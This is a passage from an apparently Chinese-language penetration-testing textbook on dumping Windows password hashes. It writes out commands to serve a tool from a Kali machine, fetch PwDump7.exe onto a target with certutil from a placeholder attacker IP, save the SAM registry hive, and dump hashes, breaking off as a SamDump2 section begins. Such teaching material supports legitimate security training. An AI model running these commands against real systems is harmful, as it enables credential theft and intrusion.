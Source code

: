 sudo python -m SimpleHTTPServer 80

要在目标系统上下载**PwDump7.exe**二进制文件，我们可以使用**certutil**工具。然而，在下载二进制文件之前，我们需要导航到一个具有读写权限的目录。在这种情况下，我们将导航到当前用户的**桌面**目录。

现在我们可以使用**certutil**工具将二进制文件从 Kali 虚拟机下载到目标系统。这可以通过在目标系统上运行以下命令来完成：

certutil -urlcache -f http://<KALI-VM-IP>/PwDump7.exe PwDump7.exe

如下图所示，如果传输成功，二进制文件应该已经下载并保存为我们指定的名称：

![图 7.13 – certutil 成功传输](img/B17389_07_013.jpg)

图 7.13 – certutil 成功传输

我们还可以手动保存目标系统上 SAM 文件的注册表值，并使用 PwDdump 工具来转储哈希值。这可以通过在目标系统上运行以下命令来完成：

reg save hklm\sam c:\sam

如果操作成功，您应该会收到一条类似于下图所示的消息：

![图 7.14 – 转储 SAM](img/B17389_07_014.jpg)

图 7.14 – 转储 SAM

我们现在可以执行二进制文件，通过运行以下命令来转储哈希值：

.\PwDump7.exe -s <SAMFILE> <SYSTEM-FILE>

这将从 SAM 数据库中转储 Windows 哈希值，我们将在下一节中破解这些哈希值。

对于我们的目标系统，这种技术将无法工作。然而，它是一个有用的工具，适用于大多数 Windows 版本。

### 使用 SamDump2

我们还可以手动保存目标系统上 SAM 文件的注册表值，并使用 SamDump2 工具来转储哈希值。这可以通过运行以下命令来完成：

